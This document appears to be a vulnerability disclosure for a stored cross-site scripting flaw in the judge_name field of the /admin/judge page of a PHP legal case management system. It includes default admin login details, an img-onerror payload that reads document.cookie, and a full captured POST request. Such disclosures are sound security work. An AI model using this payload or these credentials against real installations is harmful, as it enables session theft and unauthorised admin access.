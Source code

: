 ## Legal Case Management System

## XSS on `/admin/judge`

### Vendor Homepage:

```
https://www.campcodes.com/projects/php/legal-case-management-system/
```

### Version:

```
V1.0
```

### Tested on:

```
PHP, Apache, MySQL
```

### Credentials:

```
http://192.168.150.131/admin/login
superadmin@gmail.com
12345678Ab@
```

### Affected Page:

```
/admin/judge
```

The parameter `judge_name`  is being echoed directly into the HTML without proper sanitization or validation. This allows an attacker to inject arbitrary JavaScript code into the page, leading to XSS attacks.

### Proof of Concept:

Payload:

```
<img src=1 onerror="alert(document.cookie)">
```

Burp Request:

```
POST /admin/judge HTTP/1.1
Host: 192.168.150.131
Content-Length: 318
Accept: */*
DNT: 1
X-CSRF-TOKEN: ULMyHyzFjMsFtMuhHe7fZNzX3Wzq3QzrNCAeTRLy
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Safari/537.36 Edg/124.0.0.0
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarysGQdTkaNbjJbRagv
Origin: http://192.168.150.131
Referer: http://192.168.150.131/admin/judge
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: XSRF-TOKEN=eyJpdiI6IjBUVXNEWEN3MGlvTEJLdGRnd0Zma0E9PSIsInZhbHVlIjoiS3FRODRubGp3eU82RDdxazJlOHdcL2w3TjZxQldlRFlERVZHVWM2SkZERHRTQWNVeE1QU0QrMnhqb01IalwvK3BhIiwibWFjIjoiNGZiZWVkNDhhMTQ2Nzg5MjA5MjE3NmE3NzM2NjU0NjYwNDc4MTk0ZGEwN2U0NDRjMWJkYjU3MWJlOTA5M2UzNSJ9; test_session=eyJpdiI6ImdhdCtBSUdFNUdUUW5SZVMzV3JHNkE9PSIsInZhbHVlIjoic044ZzdFWVdCQUpWZkRQeWhmSENVWkpxK3BQNlhRY3dTWkhndWlQM0xUdU0xbWFNZVpaRGhvUlgxcytYQzVqSSIsIm1hYyI6IjRlOTg4OTYzMGEwOWVhYTEyNTY0NGEyODg0MDBjNjc5NGU3YjcxZjk0MDk0NDIwNmY0OTEwYzdiMDI3OTcxMTEifQ%3D%3D
Connection: close

------WebKitFormBoundarysGQdTkaNbjJbRagv
Content-Disposition: form-data; name="_token"

ULMyHyzFjMsFtMuhHe7fZNzX3Wzq3QzrNCAeTRLy
------WebKitFormBoundarysGQdTkaNbjJbRagv
Content-Disposition: form-data; name="judge_name"

<img src=1 onerror="alert(document.cookie)">
------WebKitFormBoundarysGQdTkaNbjJbRagv--

```

### Screenshot

![image-20240509200619405](./screenshot/image-20240509200619405.png)
